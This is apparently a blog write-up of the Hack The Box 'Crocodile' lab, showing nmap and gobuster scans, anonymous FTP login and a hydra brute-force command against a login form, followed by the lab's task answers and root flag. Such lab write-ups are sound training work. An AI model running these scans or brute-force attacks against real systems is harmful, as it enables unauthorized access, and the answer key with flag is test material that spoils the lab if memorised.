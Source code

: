 ```yaml
---
layout: single
title: Crocodile - Hack The Box
excerpt: "In this machine, we are taking advantage of FTP anonymous login and exploiting the login anel with Hydra."
date: 2025-03-10
classes: wide
header:
  teaser: /img2/crocodile.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Very Easy
tags:
  - FTP
---
```


![](/img2/Pasted%20image%2020250310120957.png)

## Introduction

> In this machine, we are taking advantage of FTP anonymous login and exploiting the login anel with Hydra.

## Reconnaissance

- Connectivity

```bash
ping -c1 10.129.1.15
```

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.129.1.15
```

![](/img2/Pasted%20image%2020250310122012.png)

- Vulnerability scanning with nmap

```bash
nmap -sV -sC -p21,80 10.129.1.15
```

![](/img2/Pasted%20image%2020250310122217.png)

- Fuzzing with gobuster

```bash
gobuster dir -u http://10.129.1.15/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --add-slash -t 100
```

![](/img2/Pasted%20image%2020250310123251.png)

## Exploitation

- Login FTP with anonymous user

```bash
ftp 10.129.1.15
```

![](/img2/Pasted%20image%2020250310122549.png)

> Password --> anonymous

- Brute forcing login pannel with hydra

- Check the pannel login request 

![](/img2/Pasted%20image%2020250310123726.png)

![](/img2/Pasted%20image%2020250310123820.png)

- Run attack with hydra

```bash
hydra -L allowed.userlist -P allowed.userlist.passwd 10.129.1.15 http-post-form "/login.php:Username=^USER^&Password=^PASS^&Submit=Login:F=Warning\!"
```

![](/img2/Pasted%20image%2020250310125148.png)

## Tasks

1. What Nmap scanning switch employs the use of default scripts during a scan?
> -sC

2. What service version is found to be running on port 21? 
> vsftpd 3.0.3

3. What FTP code is returned to us for the "Anonymous FTP login allowed" message?
> 230

4. After connecting to the FTP server using the ftp client, what username do we provide when prompted to log in anonymously?
> anonymous

5. After connecting to the FTP server anonymously, what command can we use to download the files we find on the FTP server?
> get

6. What is one of the higher-privilege sounding usernames in 'allowed.userlist' that we download from the FTP server?
> admin

7. What version of Apache HTTP Server is running on the target host? 
> Apache httpd 2.4.41

8. What switch can we use with Gobuster to specify we are looking for specific filetypes?
> -x

9. Which PHP file can we identify with directory brute force that will provide the opportunity to authenticate to the web service?
> login.php

10. Submit root flag
> c7110277ac44d78b6a9fff2232434d16

![](/img2/Pasted%20image%2020250310125709.png)
